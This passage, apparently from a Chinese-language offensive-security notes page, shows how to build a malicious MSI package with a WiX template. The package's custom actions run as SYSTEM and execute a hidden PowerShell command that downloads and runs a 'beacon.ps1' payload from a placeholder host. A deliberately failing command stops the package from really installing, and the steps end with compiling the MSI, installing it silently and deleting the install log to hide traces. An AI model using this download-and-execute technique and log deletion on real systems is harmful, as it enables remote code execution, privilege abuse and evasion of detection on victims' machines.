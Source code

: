 ```xml
         Directory   ="TARGETDIR"
         ExeCommand  ='msitall'
         Return      ="check"
         Execute     ="deferred"
         Impersonate ="no"
      />

      <InstallExecuteSequence>
         <Custom Action="a_system_shell" After="InstallInitialize" /> 
         <Custom Action="z_gonna_fail" Before="InstallFinalize" /> 
      </InstallExecuteSequence>
   </Product>
</Wix>
```

这个模板 ExeCommand 处可以自定义要执行的应用程序，这里指定两条。

```plaintext
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://<Host>/beacon.ps1'))"

deferred
```

为什么执行两条命令？根据模板 README.md 说明，防止安装时真的把包安到系统里，需要执行一条不存在命令，当命令不存在会安装失败（缺点是安装会生成日志，后面需要手动删除）。

最后使用 [wix3](https://github.com/wixtoolset/wix3) 工具包打包，在工具目录生成 1.wixobj 文件。想指定输出位置就添加 -out 选项。

```plaintext
D:\raingray\wix311-binaries> candle E:\desktop\1.wxs
Windows Installer XML Toolset Compiler version 3.11.2.4516
Copyright (c) .NET Foundation and contributors. All rights reserved.

1.wxs
```

再将它打包成 MSI 包。想指定输出位置也是指定 -out。

```plaintext
D:\raingray\wix311-binaries> light 1.wixobj
Windows Installer XML Toolset Linker version 3.11.2.4516
Copyright (c) .NET Foundation and contributors. All rights reserved.

E:\desktop\1.wxs(13) : warning LGHT1079 : The cabinet 'product.cab' does not contain any files.  If this installation contains no files, this warning can likely be safely ignored.  Otherwise, please add files to the cabinet or remove it.
```

此时在目录里生成了 1.msi 和 1.wixpdb 两个文件。

使用 msiexec 命令去安装 1.msi 包裹，并删除安装错误日志。

```plaintext
msiexec /i 1.msi /qn /Lm deleteme.log

del deleteme.log
```
